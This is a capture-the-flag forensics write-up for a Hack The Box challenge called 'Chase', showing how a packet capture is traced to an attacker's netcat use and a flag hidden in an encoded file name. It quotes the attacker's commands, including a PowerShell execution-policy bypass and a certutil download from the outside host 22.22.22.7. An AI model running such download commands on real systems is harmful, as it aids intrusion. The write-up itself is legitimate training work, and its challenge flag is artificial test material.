





# WRITE_UP #

## CHASE ##

### 1. Analysis ###
* **Given:** a pcapng file named `chase.pcapng`.
* **Description:** One of our web servers triggered an AV alert, but none of the sysadmins say they were logged onto it. We've taken a network capture before shutting the server down to take a clone of the disk. Can you take a look at the PCAP and see if anything is up?
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### CHASING A GHOST ####
So we were given a pcapng file, let's use `Wireshark` to investigate it.

The file is quite small, so a quick glance at the file gives us enough information to investigate the `TCP stream`. In `stream 1`, we see the machine using a **GET** request to download netcat: `nc64.exe`



I had little suspicion to this `exe` so I try to extract the file and drop it on `VirusTotal`, although it marked as malicious program, however this the real `netcat.exe`.



At `stream 3`, we can see several commands the attacker ran on the machine:





```bash
whoami
ipconfig
powershell -ep bypass -c Invoke-WebRequest -Uri http://22.22.22.7/JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt -OutFile c:\users\public\file.txt
certutil -urlcache -split -f http://22.22.22.7/JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt c:\users\public\
c:\>
```
As we can see, the attacker try to download the same file `JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt` from a server to the local machine

The file name looks like a base64 strings to me, so I use CyberChef to decode it, however it gave me nothing.
Not satisfied enough, then I use `Magic` recipe to find whatever the name is:



## 3. Solution ##
1. **Result:** The flag is `HTB{MAn_8lu3_73aM_R0cX}`


